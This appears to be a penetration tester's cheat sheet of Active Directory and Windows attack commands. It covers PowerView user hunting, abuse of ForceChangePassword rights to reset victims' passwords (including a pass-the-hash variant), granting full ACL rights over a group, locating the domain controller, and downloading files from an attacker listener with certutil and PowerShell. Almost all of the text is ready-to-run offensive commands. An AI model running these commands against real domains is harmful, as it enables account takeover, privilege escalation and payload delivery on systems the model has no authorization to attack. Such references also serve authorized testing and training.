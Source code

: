 ##  Lateral Movement - UserHunter
```
Invoke-UserHunter -CheckAccess
```

## ACEs ForceChangePassword (PowerView)
```
Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force) -Verbose
```

## ACEs ForceChangePassword (On Windows)
```
net user <username> P@ssw0rd /domain
```

## ACEs ForceChangePassword (On Kali, with password)
https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
```
net rpc password <TargetUser> -U <domain>/<ControlledUser>%<Password> -S <DC>
```

## ACEs ForceChangePassword (On Kali, with hash)
```
pth-net rpc password <TargetUser> -U <domain>/<ControlledUser>%ffffffffffffffffffffffffffffffff:<nthash> -S <DC>
```

### ACEs add Rights
```
Add-DomainObjectAcl -TargetIdentity <GroupName> -PrincipalIdentity <Account> -Rights All
```

# Windows

## Find DC IP
```
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain> <DNS>
```

## Windows Download file
```
certutil.exe -urlcache -f http://<listen_ip>:<listen_port>/<filename> <filename>
```

## Windows Download file (PowerShell)
```
iwr "http://<listen_ip>:<listen_port>/<filename>" -OutFile "<filename>"
```
